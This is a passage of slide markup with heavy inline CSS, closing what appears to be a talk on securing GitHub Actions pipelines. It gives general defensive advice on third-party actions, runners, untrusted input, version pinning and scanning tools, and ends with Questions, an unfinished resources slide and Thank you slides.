<div class="note-container">

  
  <div class="note-box">
    <ul class="note-list">
      <li class="note-item">
        <span class="note-emoji">⚠️</span>
        <span><span class="note-highlight">Third-party actions</span><br> run in your trusted context</span>
      </li>
      <li class="note-item">
        <span class="note-emoji">☁️</span>
        <span><span class="note-highlight">GitHub runners</span><br> are ephemeral but unrestricted</span>
      </li>
      <li class="note-item">
        <span class="note-emoji">🏠</span>
        <span><span class="note-highlight">Self-hosted runners</span><br>consider hardening and run ephemeral</span>
      </li>
    </ul>
  </div>


---

<!--
_backgroundColor: #2D3748
_color: white
-->

<style scoped>
.key-lessons-container {
  display: flex;
  flex-direction: column;
  gap: 1.5rem;
  height: 85%;
  padding: 1rem;
}

.intro-message {
  text-align: center;
  background: rgba(255, 255, 255, 0.1);
  border-radius: 12px;
  padding: 0.8rem;
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.3);
}

.intro-message p {
  margin: 0;
  font-size: 0.9rem;
  color: #E2E8F0;
  font-style: italic;
}

.lessons-grid {
  display: grid;
  grid-template-columns: 1fr 1fr;
  gap: 1.5rem;
  flex: 1;
}

.lesson-card {
  background: rgba(255, 255, 255, 0.1);
  border-radius: 12px;
  padding: 1.5rem;
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.3);
  display: flex;
  flex-direction: column;
  gap: 0.8rem;
}

.lesson-header {
  display: flex;
  align-items: flex-start;
  gap: 0.8rem;
}

.lesson-emoji {
  font-size: 1.8rem;
  flex-shrink: 0;
  margin-top: 0.2rem;
}

.lesson-content {
  flex: 1;
}

.lesson-title {
  font-size: 0.85rem;
  font-weight: bold;
  color: #F7FAFC;
  margin: 0 0 0.4rem 0;
  line-height: 1.1;
}

.lesson-description {
  font-size: 0.5rem;
  color: #CBD5E0;
  margin: 0;
  line-height: 1.5;
}
</style>

# 🎯 Essential principles to protect your pipeline

<div class="key-lessons-container">
  
  <div class="lessons-grid">
    <div class="lesson-card">
      <div class="lesson-header">
        <span class="lesson-emoji">⚡</span>
        <div class="lesson-content">
          <h3 class="lesson-title">Pipelines Are <span class="warning">Powerful</span></h3>
          <p class="lesson-description">Your pipelines typically have <span class="highlight">extensive permissions</span> - they can modify code, access secrets, and deploy to production. Treat them with the respect they deserve.</p>
        </div>
      </div>
    </div>
    <div class="lesson-card">
      <div class="lesson-header">
        <span class="lesson-emoji">🛡️</span>
        <div class="lesson-content">
          <h3 class="lesson-title">Power & <span class="warning">Responsibility</span></h3>
          <p class="lesson-description">With <span class="highlight">great power</span> comes <span class="warning">great responsibility</span>. GitHub Actions gives you incredible capabilities, but every workflow is a potential attack vector if not properly secured.</p>
        </div>
      </div>
    </div>    
    <div class="lesson-card">
      <div class="lesson-header">
        <span class="lesson-emoji">🔍</span>
        <div class="lesson-content">
          <h3 class="lesson-title">Guard What You <span class="warning">Allow</span></h3>
          <p class="lesson-description">Be selective about <span class="highlight">third-party actions</span>, <span class="highlight">untrusted input</span>, and <span class="highlight">dangerous triggers</span>. Pin versions, validate inputs, and use least privilege.</p>
        </div>
      </div>
    </div>    
    <div class="lesson-card">
      <div class="lesson-header">
        <span class="lesson-emoji">🔧</span>
        <div class="lesson-content">
          <h3 class="lesson-title">Empower Yourself with <span class="highlight">Tools</span></h3>
          <p class="lesson-description">Use <span class="highlight">GHAS</span> and <span class="highlight">Zizmor</span> to gate vulnerabilities early. Automate security scanning and block unsafe code in your workflow.</p>
        </div>
      </div>
    </div>
  </div>
</div>


---


<!--
-->

# Questions

<style scoped>
h1 {
  font-size: 120px;
}
</style>


---

<!--
_backgroundColor: #D10077
_color: purple
-->


<!--
_backgroundColor: #1E40AF
_color: white
-->

<style scoped>
.group-security-container {
  display: flex;
  flex-direction: column;
  gap: 1.5rem;
  height: 85%;
  padding: 1rem;
}

.intro-message {
  text-align: center;
}

.intro-message p {
  margin: 0;
  font-size: 1.0rem;
  color: #DBEAFE;
  font-style: italic;
}

.resources-grid {
  display: grid;
  grid-template-columns: 1fr 1fr;
  gap: 1.5rem;
  flex: 1;
}

.resource-card {
  padding: 1.0rem;
  gap: 0.8rem;
  background: rgba(59, 130, 246, 0.15);
  border: 1px solid rgba(59, 130, 246, 0.3);
}

.resource-header {
  display: flex;
  align-items: center;
  gap: 0.6rem;
  margin-bottom: 0.4rem;
}

.resource-emoji {
  font-size: 1.8rem;
  flex-shrink: 0;
}

.resource-title {
  font-size: 0.7rem;
  font-weight: bold;
  color: #DBEAFE;
  margin: 0;
  line-height: 1.2;
}

.resource-description {
  font-size: 0.5rem;
  color: #BFDBFE;
  margin: 0;
  line-height: 1.4;
}

.resource-highlight {
  color: #60A5FA;
  font-weight: bold;
}
</style>

# Add links / resources

---

<style scoped>
h1 {
  text-shadow: 2px 2px 4px rgba(0, 0, 0, 0.7), 0 0 8px rgba(0, 0, 0, 0.5);
  color: white;
}
</style>

# <!-- fit --> Thank you
<br>
<br>
<br>


